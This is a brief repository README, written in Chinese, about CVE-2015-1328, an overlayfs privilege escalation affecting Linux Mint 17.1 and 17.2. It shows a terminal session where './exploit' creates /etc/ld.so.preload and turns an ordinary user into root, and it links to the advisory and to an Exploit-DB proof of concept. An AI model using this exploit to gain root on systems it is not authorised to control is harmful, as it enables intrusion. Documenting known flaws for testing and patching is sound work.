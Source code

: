 # Description
截止到今天，LinuxMint目前比较新的版本17.1可以直接本地普通用户提权，最新的17.2需要在进行远程的时候可以，本地不可以！

# Testing

```
$ id
uid=1000(mudongliang) gid=1000(mudongliang) 组=1000(mudongliang),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lpadmin),110(sambashare)
$ ./exploit 
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# id
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lpadmin),110(sambashare),1000(mudongliang)
```

# Reference
[CVE-2015-1328](http://cxsecurity.com/issue/WLB-2015060081)
[POC](https://www.exploit-db.com/exploits/37292/)
[USN-2646-2](http://www.ubuntu.com/usn/usn-2646-2/)
